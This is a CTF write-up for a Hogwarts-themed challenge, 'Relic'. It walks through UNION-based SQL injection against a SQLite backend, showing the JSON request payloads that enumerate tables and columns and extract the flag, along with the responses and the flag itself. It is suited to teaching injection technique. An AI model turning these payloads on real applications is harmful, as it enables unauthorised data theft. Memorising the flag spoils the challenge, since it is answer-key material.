

# Relic

**Description**: A hidden relic lies within Hogwarts' enchanted database!

**Link**: `https://relic-507739684618.us-central1.run.app/`

## Solution

This was a classic SQL Injection challenge. It runs `sqlite` which could be found with some enumeration.<br><br>

Listing the tables using this query.

Request:
```json
{ "relic": "' UNION SELECT name FROM sqlite_master WHERE type='table'; --" }
```

Response:
```json
{ "message": "flags", "success": true }
```

Now let's find the name of the columns in the flags table.

Request:
```json
{ "relic": "' UNION SELECT group_concat(name) FROM pragma_table_info('flags'); --" }
```

Response:
```json
{ "message": "id,key,secret_code", "success": true }
```

And on reading the key, we get the flag.
Request:
```json
{ "relic": "' UNION SELECT key FROM flags; --" }
```

Response:
```json
{ "message":"KJSSE_CTF{th3s3_sq1_inj3cti0n5_ar3_g3tting_eas1er}", "success":true }
```

<figure></figure>

Flag:
```
KJSSE_CTF{th3s3_sq1_inj3cti0n5_ar3_g3tting_eas1er}
```